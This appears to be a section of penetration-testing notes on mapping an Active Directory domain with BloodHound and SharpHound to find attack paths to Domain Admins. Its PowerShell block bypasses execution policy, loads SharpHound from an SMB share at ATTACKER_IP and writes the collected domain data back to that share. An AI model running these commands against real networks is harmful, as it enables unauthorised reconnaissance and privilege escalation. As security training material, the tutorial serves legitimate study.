 
### 5.1.3 Domain Enumeration with BloodHound

BloodHound lets you perform graph-analysis on Active Directory to map out the domain and find attack paths. Its companion, SharpHound, performs the preliminary data collection on a Windows domain host.

On the victim machine:

```powershell
# stop complaints about running downloaded scripts
powershell -ep bypass

# connect to attacker SMB share
net use \\ATTACKER_IP herpderp /user:derp

# load all the functions from SharpHound into your session
Import-Module \\ATTACKER_IP\share\SharpHound.ps1

# collect all the data (except local group policies)
Invoke-BloodHound -CollectionMethod All -OutputDirectory \\ATTACKER_IP\share -ZipFileName "derphound.zip"
```

On the attacker machine:

```sh
# start the neo4j server
sudo neo4j start

# browse to neo4j webUI to configure a password
firefox http://localhost:7474
# log in with neo4j:neo4j
# and change password to whatever you want (remember for later!)

# now that neo4j is running, start bloodhound
bloodhound
# configure it to log into local neo4j server using approriate URL and creds
# URL: bolt://localhost:7687
```

Upload your zip file by clicking the "Upload Data" button from the top-right set of menu buttons (looks like an up arrow in a circle), and wait for database to get updated.

Go to the Analysis tab under the search bar's hamburger menu.

![](assets/bloodhound-analysis-tab.png)

The _Find Shortest Paths to Domain Admins_ query is a very handy one:

![](assets/bloodhound-shortest-path-domain-admin.png)

Clicking on any node brings up its "Node Info" tab under the search bar, which contains lots of details about the node.

💡 **TIP**: It's a good idea to check the details of users/groups/computers you control. Especially look at the *Outbound Object Control* and *Local Admin Rights*.
